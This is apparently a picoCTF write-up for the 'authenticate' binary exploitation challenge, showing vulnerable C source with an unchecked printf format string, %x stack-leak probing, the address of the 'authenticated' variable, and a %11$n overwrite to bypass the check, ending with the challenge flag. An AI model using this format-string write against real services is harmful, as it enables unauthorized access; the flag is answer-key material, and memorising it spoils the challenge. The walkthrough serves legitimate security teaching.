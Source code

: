 # authenticate
Points: 350

## Category
Binary Exploitation

## Question
>Can you [authenticate](files/auth) to this service and get the flag? Connect with nc 2018shell1.picoctf.com 27114. [Source](files/auth.c).  

### Hint
>What happens if you say something OTHER than yes or no?

## Solution
Looking at the source code, there appears to be some sort of authentication service, with no actual way to authenticate.

We can see that there's an _authenticated_ variable, which is set to _0_, and never changed anywhere in the code. We also notice that there is possibly a form of format string vulnerability.

```c
int main(int argc, char **argv) {
	char buf[64];
	printf("Would you like to read the flag? (yes/no)\n");

	fgets(buf, sizeof(buf), stdin);

	if (strstr(buf, "no") != NULL) {
		printf("Okay, Exiting...\n");
		exit(1);
	}
	else if (strstr(buf, "yes") == NULL) {
		puts("Received Unknown Input:\n");
		printf(buf); // Format String Vulnerability
	} 
	read_flag();
}
```

We can try running the binary and inputting _%x_ to see if any values from the stack leaks.

```
$ ./auth 
Would you like to read the flag? (yes/no)
%x%x
Received Unknown Input:

80489a6f7f235c0
Sorry, you are not *authenticated*!
```

Let's find out where the authenticated varialbe is located and its corresponding value.

```
[0x08048560]> s obj.authenticated 
[0x0804a04c]> px 4
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0804a04c  0000 0000                                ....
[0x0804a04c]> s
0x804a04c
```

Looks like it's located at _0x804a04c_ with a value of _0_. Let's craft an exploit. We add characters with familiar know hex values followed by multiple _%x_

```
$ ./auth 
Would you like to read the flag? (yes/no)
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Received Unknown Input:

AAAA 80489a6 f7f5b5c0 804875a 0 c30000 0 fffd3ff4 0 0 0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 Sorry, you are not *authenticated*!
```

Looks like the 11th _%x_ did the trick. Now substitue _AAAA_ with the little endian values of the _authenticated_ variable's address and all the _%x_ with _%11$n_. This will overwrite the value of _authenticated_.

Send the exploit to the service and get the flag.

Working solution [solve.py](solution/solve.py).

### Flag
`picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_742b49a4}`
